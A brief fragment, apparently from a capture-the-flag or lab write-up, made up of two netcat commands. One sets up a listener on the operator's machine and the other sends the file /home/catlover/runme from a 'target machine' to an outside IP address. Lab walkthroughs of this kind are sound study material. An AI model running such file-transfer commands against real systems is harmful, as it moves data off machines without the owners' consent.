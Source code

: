 
- on local machine machine `nc -vlp 9999 > runme`


- on target machine `nc -N 10.17.24.189 9999 < /home/catlover/runme`
